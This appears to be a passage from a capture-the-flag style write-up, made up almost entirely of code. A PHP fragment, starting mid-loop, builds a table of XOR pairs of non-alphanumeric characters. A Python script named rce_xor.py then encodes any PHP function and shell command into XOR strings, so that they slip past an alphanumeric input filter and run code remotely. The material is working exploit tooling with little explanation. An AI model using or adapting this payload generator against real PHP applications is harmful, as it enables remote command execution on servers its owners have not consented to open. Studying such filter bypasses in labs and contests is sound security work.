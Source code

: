 ```php
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```



```python
# -*- coding: utf-8 -*-
# rce_xor.py

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```
